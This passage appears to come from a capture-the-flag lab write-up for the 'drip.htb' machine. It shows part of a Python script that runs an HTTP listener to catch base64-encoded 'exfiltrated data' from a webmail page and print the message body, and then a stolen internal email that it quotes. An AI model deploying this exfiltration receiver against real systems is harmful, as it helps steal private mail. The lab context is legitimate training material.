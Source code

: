 ```
            decoded_data = base64.b64decode(encoded_data).decode('latin-1')
            print(f"[+] Received data {decoded_data}")
            tree = html.fromstring(decoded_data)

            # XPath query to find the div with id 'messagebody'
            message_body = tree.xpath('//div[@id="messagebody"]')
           
            # Check if the div exists and extract the content
            if message_body:
                # Extract inner text, preserving line breaks
                message_text = message_body[0].text_content().strip()
                print("[+] Extracted Message Body Content:\n")
                print(message_text)
            else:
                print("[!] No div with id 'messagebody' found.")

        else:
            print("[!] Received request but no data found.")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

    def log_message(self, format, *args):
        return  # Suppress default logging

# Function to start the HTTP server
def start_server():
    server_address = (LISTEN_IP, LISTEN_PORT)
    httpd = HTTPServer(server_address, RequestHandler)
    print(f"[+] Listening on port {LISTEN_PORT} for exfiltrated data...")
    httpd.serve_forever()

# Run the HTTP server in a separate thread
server_thread = threading.Thread(target=start_server)
server_thread.daemon = True
server_thread.start()

# Send the POST request
send_post()

# Keep the main thread alive to continue listening
try:
    while True:
        pass
except KeyboardInterrupt:
    print("\n[+] Stopping server.")
```

Firstly, we can check the uid 3 message:
```
Hey Bryce,

The Analytics dashboard is now live. While it's still in development and limited in functionality, it should provide a good starting point for gathering metadata on the users currently using our service.

You can access the dashboard at dev-a3f1-01.drip.htb. Please note that you'll need to reset your password before logging in.

If you encounter any issues or have feedback, let me know so I can address them promptly.
```
